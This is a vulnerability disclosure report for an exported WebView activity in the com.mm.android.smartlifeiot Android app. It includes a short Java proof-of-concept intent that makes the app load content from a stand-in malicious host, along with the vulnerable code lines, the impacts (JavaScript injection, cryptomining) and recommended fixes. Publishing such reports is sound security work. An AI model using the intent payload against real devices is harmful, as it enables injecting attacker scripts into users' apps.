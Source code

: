 ## Vulnerability Report 

### Introduction:
This vulnerability report outlines a security flaw identified in the `com.mm.android.smartlifeiot` app's exported activity: `com.mm.android.easy4ip.MainActivity`. An attacker can leverage this flaw using a third-party app to load arbitrary execution in the WebView of the vulnerable application.



### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The com.mm.android.easy4ip.MainActivity activity within the com.mm.android.smartlifeiot app blindly loads URLs provided through intent data. 

A malicious third-party app can exploit this oversight to trigger the loading of malicious web content, initiating unauthorized JavaScript web browser mining operations or remote code execution within the WebView.

### Proof of Concept:

 ![image](https://github.com/actuator/imou/blob/main/pocGIF.gif)
 
A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:


Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);


Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
**this.url = getIntent().getExtras().getString("url");**


2. JavaScript execution is enabled in the WebView:

**this.webView.getSettings().setJavaScriptEnabled(true);**

3. Direct web content loading with the fetched URL:

**progressWebView.loadUrl(str);**


### Impact:

An attacker can exploit this vulnerability to:

Execute arbitrary JavaScript within the app's context, leading to remote code execution.

Start unauthorized web browser mining operations, consuming device resources and potentially earning cryptocurrency for the attacker.

Access the internet from a victim's device without necessary permissions in the malicious app's manifest.

### MITRE CWE References:

- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

 TLDR: **Set Exported='False'**
 ![image](https://github.com/actuator/imou/assets/78701239/ca4d4e27-3d5d-4a49-8fd9-2a7e60e29c37)



 
